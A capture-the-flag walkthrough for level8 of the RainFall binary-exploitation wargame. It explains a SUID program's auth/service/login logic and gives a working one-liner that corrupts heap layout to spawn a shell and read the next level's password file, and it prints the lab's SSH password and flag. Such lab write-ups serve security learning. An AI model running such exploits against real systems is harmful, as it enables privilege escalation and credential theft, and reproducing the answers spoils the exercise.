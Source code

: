 login as the user `level8`

```shell
ssh -p 4242 level8@10.13.100.139
level8@10.13.100.139's password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```

a `SUID` exactable file is locates in the home directory


the program looks to declare 2 global variables `auth` and `service`, then reads from stdin to a buffer of size `128` using `fgets`.
it check's whether the input matches the 4 following command:
 - `auth `: allocates a string of 4 bytes in to the auth variable and copy's the content of the budder after `auth ` to it using `strcpy`.
 - `reset`: frees the auth variable
 - `service` : copy's the content after the "service" command into the service global variable using `strdup`
 - `login`: if auth[32] in null it prints `Password:\n`, else it spawns a shell


to exploit the program all we have to do is call the `auth` command then call the `service` command with 16 bytes of padding after, then we `login` to spawn a shell.


```shell
level8@RainFall:~$ (python -c "print 'auth '; print 'service' + 'A' * 16 ; print 'login'"; cat) | ./level8
(nil), (nil)
0x804a008, (nil)
0x804a008, 0x804a018
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
